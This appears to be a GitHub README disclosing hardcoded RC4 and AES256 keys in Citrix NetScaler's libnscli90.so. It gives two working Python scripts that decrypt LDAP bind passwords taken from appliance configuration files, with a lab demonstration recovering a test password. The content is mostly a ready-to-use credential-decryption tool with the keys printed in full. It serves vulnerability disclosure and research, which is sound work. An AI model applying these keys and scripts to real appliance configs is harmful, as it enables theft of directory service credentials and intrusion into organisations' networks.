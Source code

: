 See [https://dozer.nz/citrix-decrypt/](https://dozer.nz/citrix-decrypt/)


## Netscaler

Netscaler has a hardcoded RC4 encryption key used to encrypt cleartext passwords stored in the config, such as for LDAP. The static encryption key exists in the libnscli90.so library, and as of 10.5 is `2286da6ca015bcd9b7259753c2a5fbc2`.

The below python script will decrypt LDAP and similar encrypted values obtained from the config.
````
#!/usr/bin/python
from Crypto.Cipher import ARC4
import sys, binascii

def decrypt(key, hex):
        out_cipher = ARC4.new(key)
        decoded = out_cipher.decrypt(hex)
        return decoded

def main():
        #Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 2:
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            print decrypt(key,ciphertext)

main()
````

## Update:

This seems to have changed at some point and now ldap bind passwords are encrypted by default with a new technique (in the running config looks like 
`add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf`)

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance as well, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/) :*


Note the `-encryptmethod ENCMTHD_3` in the config. 

After some quick RE i figured out this ENCMTHD_3 is just AES256-CBC with a different key ("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9"). Heres the way to decrypt ENCMTHD_3 values (the default).



```
import base64
from Crypto.Cipher import AES
from Crypto import Random
import binascii,sys  


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for aes snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def encrypt( self, raw ):
        raw = pad(raw)
        iv = Random.new().read( AES.block_size )
        cipher = AES.new( self.key, AES.MODE_CBC, iv )
        return base64.b64encode( iv + cipher.encrypt( raw ) ) 

    def decrypt( self, enc ):
        iv = "\x00" * 16
        cipher = AES.new(self.key, AES.MODE_CBC, iv )
        return unpad(cipher.decrypt( enc ))



def main():
        #New Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")

        if len(sys.argv) == 2:  
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            f = AESCipher(key)
            decoded= f.decrypt(ciphertext)
            print decoded[16:]


main()

```


proof:

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

#python decrypt-new.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f

test12345678secretldappassword
```

